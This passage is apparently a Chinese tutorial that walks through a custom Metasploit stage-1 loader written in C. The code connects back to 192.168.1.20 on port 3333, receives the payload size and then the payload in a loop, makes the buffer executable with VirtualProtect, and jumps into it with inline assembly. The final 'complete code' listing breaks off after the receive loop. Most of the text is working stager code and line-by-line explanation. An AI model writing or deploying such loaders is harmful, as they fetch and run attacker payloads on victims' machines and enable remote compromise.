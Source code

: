 因为msf发送过来的stage1阶段的载荷，不是一次性全部发过来的，所以需要一个循环，来重复的接收发送过来的载荷.

代码的思路：recvSize是stage1阶段载荷的总大小，而recv函数的返回值是接收了多少字节的数据，那么我们可以用载荷总大小-recv函数的返回值(当前接收数据的大小)，再把结果赋给recvSize，进行下一次判断，直到recvSize=0时，就代表stage1阶段的载荷已经全部接收完了。  
`DWORD i=1`  
i=1，是要让代码可以进入到while循环中，进入到循环后i会被重新赋值。  
`i = recv(sock, (char*)recbuf, recvSize, 0);`  
用i来接收recv函数的返回值，也就是当前接收了多少数据，recv函数第一个参数是与服务端建立链接的socket，第二个参数是接收到的数据放到recbuf指向的内存中，第三个参数是内存的大小，第四个参数一般是0。

```php
recbuf =recbuf+i;
```

这行代码功能是移动指针到空白的地方，因为当前的指针指向的内存中已经有数据了，如果不让指针指向后面的内存，继续用当前的指针来接收数据，那么前面接收的数据会被覆盖掉。

```php
recvSize = recvSize - i;
```

载荷总大小-当前循环中msf发送的载荷大小，得到剩余载荷大小，并把值再次赋给recvSize，来进行下一次判断，直到recvSize等于0.

```php
VirtualProtect(recbuf2, recvSize2, PAGE_EXECUTE_READWRITE, &recvSize);
__asm
{
    mov edi, sock;
    jmp recbuf2;
}
```

`VirtualProtect`该函数功能是更改一块内存的权限，我们需要把存放着载荷的内存权限修改为可执行，这样才可以正常执行载荷，该函数的第一个参数是一个指针，代表从哪里修改，第二个参数是修改多少字节的内存，第三个参数是要把内存块修改成什么权限这里是`PAGE_EXECUTE_READWRITE`代表可读可写可执行，第四个参数也是一个指针，代表把内存块原来的权限放到哪里，**这里需要注意的是，修改内存权限时，要从`recbuf2`开始修改，不可以从recbuf因为recbuf的值在while循环中被我们修改掉了。**

`__asm`代表我们要在c语言中使用汇编指令。  
这里是两行汇编代码  
`mov edi,sock`把sock的值放到edi寄存器中。  
`jmp recbuf2`修改eip寄存器的值，去执行载荷。

完整代码

```php
#include <stdio.h>
#include <Windows.h>
#pragma comment(lib,"ws2_32.lib")
void main() {

    WSADATA ws_Data;
    WSAStartup(MAKEWORD(2, 2), &ws_Data);
    SOCKET sock = socket(AF_INET, SOCK_STREAM, 0);
    SOCKADDR_IN sock_info = { 0 };
    sock_info.sin_family = AF_INET;
    sock_info.sin_addr.S_un.S_addr = inet_addr("192.168.1.20");
    sock_info.sin_port = htons(3333);
    connect(sock, (SOCKADDR*)&sock_info, sizeof(SOCKADDR_IN));
    DWORD recvSize;
    recv(sock, (char*)&recvSize, sizeof(DWORD), 0);
    PBYTE recbuf = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, recvSize);
    DWORD recvSize2 = recvSize;
    PBYTE recbuf2 = recbuf;
    DWORD i = 1;
    while (i>0&&recvSize>0)
    {
        i = recv(sock, (char*)recbuf, recvSize, 0);
        recbuf =recbuf+i;//越过第一次接收的数据
        recvSize = recvSize - i;

    }
```
